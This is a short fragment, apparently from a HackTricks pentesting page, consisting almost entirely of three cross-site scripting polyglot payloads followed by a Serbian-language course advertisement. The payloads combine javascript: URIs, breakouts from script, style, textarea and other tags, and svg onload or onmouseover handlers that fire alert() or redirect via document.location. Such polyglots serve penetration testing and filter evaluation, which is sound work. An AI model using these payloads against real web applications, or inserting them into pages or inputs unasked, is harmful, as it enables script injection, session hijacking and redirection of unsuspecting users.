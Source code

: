 ```markup
%0ajavascript:`/*\"/*-->&lt;svg onload='/*</template></noembed></noscript></style></title></textarea></script><html onmouseover="/**/ alert(test)//'">`
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+document.location=`//localhost/mH`//'>
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=document.location=`//localhost/mH`//>
```

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
